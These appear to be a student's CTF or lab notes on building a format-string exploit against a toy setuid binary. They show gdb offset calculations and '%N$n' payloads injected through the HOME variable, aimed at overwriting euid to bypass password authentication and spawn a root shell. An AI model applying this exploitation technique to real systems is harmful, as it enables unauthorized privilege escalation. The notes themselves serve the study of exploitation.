 ```c
// fopen_passwd()
...
snprintf(passwd_path, MAX_PATH_LENGTH, "%.243s/etc/passwd", homedir);
...
```
 - This is the only `printf` that allows an extremely large string that we can control
 - Make it overwrite `euid[1]` to be 0 to skip password authentication
 - Will also need to figure out what to do since `passwd_path` is gonna be big and ugly, maybe just symlink it?
 - These values will probably shift around a bit when we make `HOME` huge
```
(gdb) p &euid[0]
$3 = (uid_t *) 0x7fffffffed20
(gdb) p &euid[1]
$4 = (uid_t *) 0x7fffffffed24

(gdb) p $rsp + 8
$5 = (void *) 0x7fffffffea10

>>> python3
>>> 0x7fffffffed24 - 0x7fffffffea10
788
>>> 788/8
98.5
>>> 0x7fffffffed20 - 0x7fffffffea10
784
>>> 784 / 8 + 6
104.0
```
 - `euid` is the 104th argument to `snprintf`, `euid[1]` is the 104.5th argument to `snprintf`
	 - Can just overwrite the entire thing since it overwrites `euid[0]` afterwards anyway
 - I think this isn't working because it needs to be given a pointer to an address, not just an address to overwrite
```
0x7fffffffed20 = \x20\xed\xff\xff\xff\x7f

>>> gdb --args env -i HOME=$'%104$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\x20\xed\xff\xff\xff\x7f'
(gdb) p &argv[3]
$1 = (char **) 0x7fffffffee20
(gdb) x/xg argv[3]
0x7fffffffefd5: 0x48007fffffffed20

>>> gdb --args env -i HOME=$'%104$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\x20\xed\xff\xff\xff\x7f' ''
(gdb) x/xg argv[3]
0x7fffffffefd4: 0x00007fffffffed20
(gdb) p &argv[3]
$1 = (char **) 0x7fffffffee20
... step into snprint
(gdb) p $rsp+8
$2 = (void *) 0x7fffffffe9f0
(gdb) p 0x7fffffffefd4 - 0x7fffffffe9f0
$3 = 1508
(gdb) p 1508 / 8
$4 = 188
(gdb) p 188 + 6
$5 = 194

>>> gdb --args env -i HOME=$'%194$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\x20\xed\xff\xff\xff\x7f' ''
(gdb) x/xg 0x7fffffffed20
0x7fffffffed20: 0x0000000200000008
// This is close, we messed up because we forgot euid has moved
(gdb) p &euid
$1 = (uid_t (*)[2]) 0x7fffffffed00
// This ends with \x00 which is annoying, move it again

>>> gdb --args env -i HOME=$'./%194$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' ''
(gdb) p &euid
$3 = (uid_t (*)[2]) 0x7fffffffecf0
(gdb) x/xg 0x7fffffffefd1
0x7fffffffefd1: 0x00007fffffffecf0
(gdb) p &argv[3]
$2 = (char **) 0x7fffffffee10
// Step into snprintf
(gdb) p $rsp + 8
$1 = (void *) 0x7fffffffe9e0
(gdb) p 0x7fffffffefd1 - 0x7fffffffe9e0
$2 = 1521
(gdb) p 1521 / 8
$3 = 190
(gdb) p 190 + 6
$4 = 196

>>> gdb --args env -i HOME=$'./%196$n' ./pseudoyeeeeet VladimirRootin /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' ''

```